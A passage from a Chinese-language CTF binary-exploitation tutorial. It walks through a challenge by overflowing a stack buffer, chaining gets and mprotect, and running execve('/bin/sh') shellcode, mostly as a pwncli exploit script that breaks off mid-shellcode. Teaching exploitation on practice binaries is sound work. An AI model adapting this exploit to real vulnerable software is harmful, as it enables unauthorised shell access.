   幸好，各种常见的限制条件在网上都有了生成脚本，也有较为专门的套路去构造。

  

## 实践操作

### 例题 chp1-0-hellopwner-flag2

还记得我们在章节 1.0 中看到的例题 chp1-0-hellopwner 吗，我们使用了 ret2text 的方法拿到了 flag1，但是还没有成功实现 getshell，接下来考虑采用 ret2shellcode 的方法来拿到 shell：

```py
#!/usr/bin/env python3
#-*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from pwncli import *
cli_script()
#  set_remote_libc('libc.so.6')
context.arch = "amd64"

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc

i2b = lambda c : str(c).encode()
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
debugB = lambda : input("\033[1m\033[33m[ATTACH ME]\033[0m")

# one_gadgets: list = get_current_one_gadget_from_libc(more=False)
CurrentGadgets.set_find_area(find_in_elf=True, find_in_libc=False, do_initial=False)

def cmd(data):
    ru(b'cmd> ')
    sl(data)
def call_func(data, idx=0, key=b""):
    cmd(data)
    ru(b'offset: ')
    sl(i2b(idx))
    if data[:1] == b"1":
        ru(b'data: ')
        sl(key)

buf_addr = 0x4c5000 + 8
gets_addr = elf.symbols['gets']
mprotect_addr = elf.symbols['mprotect']
bytes_binsh = u64_ex(b"/bin/sh\x00")
call_func(b"0\x00".ljust(0xf8, b"\x00") + p64(buf_addr) + p64(gets_addr) + p64(mprotect_addr))
# -1 => shellcode
#  0 => gets
#  1 => mprotect

shellcode = b"a"*8
shellcode += asm(f"""
    // execve(b"/bin/sh\x00", 0, 0);
    mov rax, {bytes_binsh};
    push rax;
    mov rdi, rsp;
    xor rsi, rsi;
    xor rdx, rdx;
    push SYS_execve;
    pop rax;
    syscall;
```